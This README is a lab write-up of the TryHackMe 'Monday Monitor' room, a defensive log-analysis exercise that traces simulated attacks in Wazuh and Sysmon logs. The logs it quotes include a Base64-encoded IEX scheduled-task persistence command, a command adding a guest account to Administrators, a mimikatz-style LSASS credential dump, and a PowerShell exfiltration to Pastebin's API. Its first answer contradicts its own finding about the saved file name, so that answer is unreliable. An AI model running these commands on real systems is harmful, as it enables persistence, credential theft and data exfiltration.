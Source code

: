 # Monday monitor tryhackme [here](https://tryhackme.com/room/mondaymonitor)

Swiftspend Finance is enhancing its cybersecurity by leveraging **Wazuh** and **Sysmon** for endpoint monitoring. On April 29, 2024, between 12:00:00 and 20:00:00, tests were conducted to detect suspicious activities. This README outlines the investigation of a security incident involving a phishing attachment, scheduled task, credential dumping, and data exfiltration, using Wazuh logs and Sysmon events. The analysis addresses the following questions:

1. File name saved on the host from initial access.
2. Full command used to create a scheduled task.
3. Scheduled task execution time.
4. Decoded content of the encoded data.
5. Password set for the new user account.
6. Name of the executable used to dump credentials.
7. Flag included in the exfiltrated data.

## Incident Overview

The incident involves a phishing attack that downloaded a malicious file, established persistence via a scheduled task, created a new user account, dumped credentials, and exfiltrated sensitive data. Wazuh and Sysmon logs were analyzed to uncover these activities, mapped to MITRE ATT&CK techniques.

## Investigation Steps and Findings

### 1. File Name Saved on the Host
**Question**: What is the file name saved on the host from initial access?

**Search**: Queried Wazuh for `localhost` to identify download events.

**Finding**: A PowerShell command downloaded a file from `http://localhost/SwiftSpend_Financial_Expenses.xlsm` and saved it as `PhishingAttachment.xlsm` in the Temp directory.

**Log**:
```
"powershell.exe" & {$url = 'http://localhost/SwiftSpend_Financial_Expenses.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm}
```
![PowerShell Download Event](1.png)
![Wazuh Dashboard](2.png)

**Answer**: The file saved on the host is `SwiftSpend_Financial_Expenses.xlsm`.

**MITRE ATT&CK**: T1566.001 (Spearphishing Attachment)

### 2. Full Command for Scheduled Task
**Question**: What is the full command run to create a scheduled task?

**Search**: Filtered Wazuh for `scheduler` or `schtasks`, yielding 10 hits, with two suspicious entries.

**Finding**: A command created a scheduled task named `ATOMIC-T1053.005` with a Base64-encoded payload.

**Log**:
```
"cmd.exe" /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34"
```
![Scheduled Task Logs](3.png)
![Scheduled Task Details](4.png)

**Answer**: The full command is:
```
cmd.exe /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34"
```

**MITRE ATT&CK**: T1053.005 (Scheduled Task)

### 3. Scheduled Task Execution Time
**Question**: What time is the scheduled task meant to run?

**Finding**: The scheduled task command specifies `/st 12:34` for daily execution.

**Log Reference**: See above command.

**Answer**: The scheduled task runs at **12:34**.

**MITRE ATT&CK**: T1053.005 (Scheduled Task)

### 4. Decoded Encoded Data
**Question**: What was encoded?

**Search**: Analyzed the Base64-encoded data `cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=` from the scheduled task command.

**Finding**: Decoded using a Base64 decoder, the data translates to `ping www.youarevulnerable.thm`.

![Base64 Decoder Output](6.png)
![Wazuh Log Analysis](7.png)

**Answer**: The encoded data decodes to `ping www.youarevulnerable.thm`.

**MITRE ATT&CK**: T1027 (Obfuscated Files or Information)

### 5. Password for New User Account
**Question**: What password was set for the new user account?

**Search**: Filtered Wazuh for `/add` and `net.exe`, identifying commands related to user account creation. Further searched for `guest` to find the password.

**Finding**: The command `"C:\Windows\system32\net.exe" user guest I_AM_M0NIT0R1NG` sets the password for the `guest` account. Another command adds `guest` to the Administrators group.

**Logs**:
```
"C:\Windows\system32\net.exe" localgroup Administrators guest /add
"C:\Windows\system32\net.exe" user guest I_AM_M0NIT0R1NG
```
![User Account Creation](8.png)
![Guest Account Password](9.png)

**Answer**: The password for the new user account is `I_AM_M0NIT0R1NG`.

**MITRE ATT&CK**: T1078.003 (Local Accounts)
### 6. Executable for Credential Dumping
**Question**: What is the name of the .exe that was used to dump credentials?

**Search**: Queried Wazuh for `*dump*`, yielding 15 hits, with relevant entries involving `memotech.exe`.

**Finding**: The command uses `memotech.exe` to perform credential dumping via `sekurlsa::minidump` and `sekurlsa::logonpasswords`.

**Log**:
```
"C:\Tools\AtomicRedTeam\atomics\T1003.001\bin\x64\memotech.exe" "sekurlsa::minidump C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP" "sekurlsa::logonpasswords full" exit
```
![Credential Dumping Event](11.png)

**Answer**: The executable used is `memotech.exe`.

**MITRE ATT&CK**: T1003.001 (LSASS Memory Dumping)

### 7. Flag in Exfiltrated Data
**Question**: What was the flag that was part of the exfiltrated data?

**Search**: Filtered Wazuh for `*Post*`, identifying a PowerShell command sending data to Pastebin.

**Finding**: The command includes a flag `THM{M0N1T0R_1$_1N_3FF3CT}` in the exfiltrated content.

**Log**:
```
"powershell.exe" & {$apiKey = "6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0" $content = "secrets, api keys, passwords, THM{M0N1T0R_1$_1N_3FF3CT}, confidential, private, wall, redeem..." $url = "https://pastebin.com/api/api_post.php" $postData = @{ api_dev_key = $apiKey api_option = "paste" api_paste_code = $content } $response = Invoke-RestMethod -Uri $url -Method Post -Body $postData Write-Host "Your paste URL: $response"}
```
![Data Exfiltration Log](12.png)

**Answer**: The flag is `THM{M0N1T0R_1$_1N_3FF3CT}`.

**MITRE ATT&CK**: T1567 (Exfiltration Over Web Service)
## Wazuh and Sysmon Configuration


## Documentation
- Wazuh: [documentation.wazuh.com](https://documentation.wazuh.com)
- Sysmon: [Sysmon Community Guide](https://github.com/trustedsec/SysmonCommunityGuide)
- Osquery: [osquery.io](https://osquery.io)
